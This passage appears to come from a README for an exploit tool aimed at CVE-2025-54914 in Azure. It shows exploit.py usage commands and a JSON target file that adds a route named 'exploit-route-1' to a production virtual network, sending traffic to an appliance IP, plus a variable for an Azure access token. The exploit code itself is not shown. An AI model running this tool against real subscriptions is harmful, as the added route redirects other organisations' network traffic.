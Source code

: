#### Dry Run Mode
```bash
# Test without actual exploitation
python exploit.py --targets-file targets.json --dry-run
```

#### Detailed Logging
```bash
# Enable debug logging
python exploit.py \
    --targets-file targets.json \
    --log-level DEBUG \
    --log-file exploit.log
```

## Configuration

### Target Configuration Format
```json
{
  "targets": [
    {
      "subscription_id": "12345678-1234-1234-1234-123456789012",
      "resource_group": "production-rg",
      "vnet_name": "prod-vnet",
      "subnet_name": "prod-subnet",
      "route_name": "exploit-route-1",
      "address_prefix": "10.0.1.0/24",
      "next_hop_type": "VirtualAppliance",
      "next_hop_ip": "10.0.2.5",
      "api_version": "2025-09-01",
      "priority": 1
    }
  ],
  "metadata": {
    "description": "Target configuration for CVE-2025-54914",
    "created": "2025-01-09",
    "version": "1.0"
  }
}
```

### Environment Variables
```bash
# Azure access token (alternative to Azure CLI)
export AZURE_ACCESS_TOKEN="your_token_here"

# Log level
export LOG_LEVEL="INFO"
```

## Utility Scripts
